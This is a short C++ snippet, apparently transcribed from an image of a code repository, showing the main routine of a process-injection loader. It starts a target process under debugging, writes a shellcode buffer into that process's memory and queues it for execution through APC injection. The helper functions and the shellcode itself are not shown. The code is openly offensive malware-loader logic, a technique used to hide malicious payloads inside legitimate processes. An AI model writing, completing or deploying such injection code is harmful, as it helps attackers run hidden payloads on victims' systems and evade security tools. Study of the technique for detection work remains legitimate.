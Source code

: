 ```cpp
  HANDLE* hProcess = (HANDLE*)malloc(sizeof(HANDLE));
  HANDLE* hThread = (HANDLE*)malloc(sizeof(HANDLE));


  if (!CreateDebuggedProcess(Pname, dwProcessID, hProcess, hThread)) {
  
    printf("failed to CreateProcess Error %x", GetLastError());
    return FALSE;
  
  };

  PVOID* pAddress = (PVOID*)malloc(sizeof(PVOID));
  if (!InjectShellcode(hProcess, buf, sizeof(buf), pAddress)) {

    printf("Inject Shellcode failed error %x", GetLastError());
    return FALSE;
  }


  if (!APCInjection(hThread, pAddress, dwProcessID)) {

    printf("APCInjection failed with error %x", GetLastError());
    return FALSE;
  }
  
  return TRUE;

}

```



